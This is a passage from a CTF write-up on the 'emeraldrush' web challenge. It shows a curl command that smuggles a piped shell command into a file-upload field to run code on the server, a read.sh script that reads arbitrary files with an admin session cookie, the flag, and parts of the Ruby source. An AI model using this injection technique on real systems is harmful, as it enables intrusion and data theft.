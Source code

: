 Using both this *feature* and the vulnerability, it is possible to execute arbitrary commands on the backend server.

```
curl 'http://web-emeraldrush.ctfz.one/files' \
    -H "Cookie: $COOKIE" \
    -F 'file[filename]=owned' \
    -F 'file[tempfile]=|/run_me_to_get_fl@g>/tmp/ikoLx9oR90'

./read.sh /tmp/ikoLx9oR90
ctfzone{c@ll_tH3_1nf0s3c_p0l1c3_th3y_@r3_h0ld1ng_m3_c@pt1v3_@nd_m@k3_m3_c0de_0n_ruby}
```

**Flag**: `ctfzone{c@ll_tH3_1nf0s3c_p0l1c3_th3y_@r3_h0ld1ng_m3_c@pt1v3_@nd_m@k3_m3_c0de_0n_ruby}`




## Appendices

### read.sh
```
#!/bin/sh
COOKIE="session=eyJhbGciOiJSUzI1NiJ9.eyJ1c2VyX2lkIjoxNTEsImlzX2FkbWluIjp0cnVlLCJleHAiOjE1NzUzMjIyMTN9.HlbfEmoaheXlI3H6_qIMk-dCjN1nAUP4NxKKAEkCht0iyS4b2MDS-pVS5jxSRaQ4DSh04hIxQDveb1QhwBjCsQFBOLQpMeabDs45wHHE8FckfkM5JBypdcj2IjaWJ9y_inDHPQCUOwV2Ap3oTzkCYy7QSk1CUWf6VIQrkw5yQE7RuzLXvBfDq4wtcgm4hfBhR83D18bt05o7rWv5ux6xoZmG4EGzCvTZlE0pLHpIe3XIWNC5o-Z2gYw1BryOfQ2rejUxkjTYi72_jsB5BIaMIqdLlwyQjt_ft62mp14RhvY99usLXOX7KTVghFEyUAtONCT_NOoJAIWDX8PAzJIklw"
FILENAME=$1
FILENAME_CLEAN=$(echo $FILENAME | tr -d '/')

curl -s 'http://web-emeraldrush.ctfz.one/files' -H "Cookie: $COOKIE" \
	-F "file=@/dev/null;filename=$FILENAME_CLEAN" > /dev/null

curl -G 'http://web-emeraldrush.ctfz.one/files' -H "Cookie: $COOKIE" \
	--data-urlencode "filename=$FILENAME" --output -
```


### Gemfile
```
source 'https://rubygems.org'

ruby '2.5.7'

gem 'grape', '1.2.2'
gem 'puma'
gem 'rails'
gem 'pg'
```

### acme/download.rb
```
module Acme
  class Download < Grape::API
    resource 'download/:user_id/:file_name' do

      params do
        requires :user_id, type: Integer
        requires :file_name, type: String, coerce_with: Base64.method(:decode64)
      end

      get  do
        if File.exist?(Rails.root.join("uploads", params[:user_id].to_s, params[:file_name].to_s.tr('/','')))
        content_type "application/octet-stream"
```